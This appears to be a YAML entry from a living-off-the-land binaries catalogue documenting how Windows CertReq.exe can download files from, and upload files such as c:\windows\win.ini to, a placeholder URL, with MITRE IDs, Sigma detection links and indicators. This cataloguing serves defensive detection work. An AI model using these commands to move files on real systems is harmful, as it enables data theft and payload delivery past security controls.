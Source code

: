 ```yaml
---
Name: CertReq.exe
Description: Used for requesting and managing certificates
Author: 'David Middlehurst'
Created: 2020-07-07
Commands:
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
    Description: Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini
    Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST and show response in terminal
    Usecase: Upload
    Category: Upload
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certreq.exe
  - Path: C:\Windows\SysWOW64\certreq.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_susp_certreq_download.yml
  - IOC: certreq creates new files
  - IOC: certreq makes POST requests
Resources:
  - Link: https://dtm.uk/certreq
Acknowledgement:
  - Person: David Middlehurst
    Handle: '@dtmsecurity'
---
```


